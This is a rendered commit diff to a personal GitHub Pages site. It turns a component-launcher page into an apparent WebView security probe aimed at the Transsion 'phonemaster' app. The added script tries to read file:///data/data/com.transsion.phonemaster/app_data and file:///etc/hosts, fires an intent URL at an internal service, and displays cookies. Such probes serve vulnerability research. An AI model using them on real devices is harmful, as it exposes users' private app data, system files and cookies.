

Before and after one commit to lHackl-007/lHackl-007.github.io, a plain HTML site: page index2.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index2.html

```diff
--- a/index2.html
+++ b/index2.html
@@ -1,17 +1,89 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Launch Android Component</title>
+    <title>Internal Browser Test</title>
+</head>
+<body>
+    <h2>WebView and Local File Access Test</h2>
+
+    <!-- 显示内置 WebView 版本 -->
+    <div>
+        <h3>WebView Version:</h3>
+        <pre id="webview-version">Loading...</pre>
+        <button onclick="getWebViewVersion()">Get WebView Version</button>
+    </div>
+
+    <!-- 读取 com.transsion.phonemaster 应用的数据 -->
+    <div>
+        <h3>Application Data (com.transsion.phonemaster):</h3>
+        <pre id="app-data">Loading...</pre>
+        <button onclick="getAppData()">Read App Data</button>
+    </div>
+
+    <!-- 读取 /etc/hosts 文件内容 -->
+    <div>
+        <h3>/etc/hosts File Content:</h3>
+        <pre id="hosts-content">Loading...</pre>
+        <button onclick="readHostsFile()">Read /etc/hosts</button>
+    </div>
+
+    <!-- 启动目标组件 -->
+    <div>
+        <h3>Launch Target Component:</h3>
+        <button onclick="launchComponent()">Launch Component</button>
+    </div>
+
+    <!-- 加载所有存储的 Cookie -->
+    <div>
+        <h3>Cookies:</h3>
+        <pre id="cookies">Loading...</pre>
+        <button onclick="getCookies()">Show Cookies</button>
+    </div>
+
     <script>
-        function launchComponent(componentName) {
-            const url = `myapp://launch?component=${componentName}`;
-            window.location.href = url; // 触发 Intent
+        // 读取 WebView 版本
+        function getWebViewVersion() {
+            const version = navigator.userAgent;
+            document.getElementById("webview-version").innerText = version;
+        }
+
+        // 读取应用数据 (示例)
+        function getAppData() {
+            // 假设从一个特定的路径读取应用数据
+            // 实际环境中，这里可能需要不同的访问方式
+            fetch("file:///data/data/com.transsion.phonemaster/app_data")
+                .then(response => response.text())
+                .then(data => {
+                    document.getElementById("app-data").innerText = data;
+                })
+                .catch(err => {
+                    document.getElementById("app-data").innerText = "Unable to read app data: " + err;
+                });
+        }
+
+        // 读取 /etc/hosts 文件
+        function readHostsFile() {
+            fetch("file:///etc/hosts")
+                .then(response => response.text())
+                .then(data => {
+                    document.getElementById("hosts-content").innerText = data;
+                })
+                .catch(err => {
+                    document.getElementById("hosts-content").innerText = "Unable to read /etc/hosts: " + err;
+                });
+        }
+
+        // 启动目标组件
+        function launchComponent() {
+            const intentUrl = "myapp://com.transsion.widget.WidgetJunkJobService"; // 替换为实际的 URL
+            window.location.href = intentUrl;
+        }
+
+        // 获取 Cookie
+        function getCookies() {
+            const cookies = document.cookie;
+            document.getElementById("cookies").innerText = cookies || "No cookies found";
         }
     </script>
-</head>
-<body>
-    <h2>Launch Component Example</h2>
-    <button onclick="launchComponent('com.cyin.himgr.widget.activity.DragDropActivity')">Launch DragDropActivity</button>
-    <button onclick="launchComponent('com.cyin.himgr.repeatfile.RepeatFileActivity')">Launch RepeatFileActivity</button>
 </body>
 </html>
```
